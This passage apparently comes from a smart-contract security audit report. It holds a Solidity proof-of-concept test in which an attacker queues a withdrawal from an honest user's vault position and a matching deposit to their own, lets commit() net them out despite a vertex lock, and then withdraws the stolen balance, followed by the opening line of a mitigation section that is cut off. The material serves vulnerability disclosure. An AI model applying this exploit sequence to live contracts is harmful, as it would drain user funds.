 ```solidity
        // This simulates what would happen when calling ValueFacet.removeValueSingle(), which internally:
        // - Calls c.removeValueSingle() which calls c.trimAllBalances()
        // - Which calls c._trimBalance() which calls v.trimBalance()
        // - Which then calls vProxy.withdraw() and vProxy.commit()
        
        // This creates a situation where the attacker can queue a deposit and withdrawal that nets out in commit()
        
        // Setup the attack using the VaultProxy directly (in real exploit, this happens through trimBalance)
        VaultProxy memory vProxy = VaultLib.getProxy(vid);
        
        // Simulate the sequence that would happen during trimBalance:
        // 1. Queue a withdraw (this is normally done inside v.trimBalance)
        vProxy.withdraw(honestUserCid, 3e18);
        
        // 2. Queue a deposit for the attacker (would normally be rejected but happens via commit netting)
        vProxy.deposit(attackerCid, 3e18);
        
        // 3. Call commit() which performs netting
        vProxy.commit();
        
        // Check balances after the attack
        console2.log("Balances after attack:");
        console2.log("Honest user balance:", v.balance(honestUserCid, false));
        console2.log("Attacker balance:", v.balance(attackerCid, false));
        
        // Verify the attack succeeded
        assertLt(v.balance(honestUserCid, false), 5e18, "Honest user should have lost funds");
        assertGt(v.balance(attackerCid, false), 0, "Attacker should have gained funds");
        
        // Verify the attacker can withdraw the stolen funds using the emergency withdrawal
        uint256 stolenAmount = v.balance(attackerCid, false);
        v.withdraw(attackerCid, stolenAmount, false);
        
        // Verify the final state
        assertEq(v.balance(attackerCid, false), 0, "Attacker should have withdrawn all funds");
        assertTrue(v.isLocked(), "Vertex should still be locked");
        
        console2.log("Final state:");
        console2.log("Honest user balance:", v.balance(honestUserCid, false));
        console2.log("Attacker balance:", v.balance(attackerCid, false));
    }
```

### Mitigation

1. Modify the VaultE4626.commit() function to accept and respect the vertex lock status:

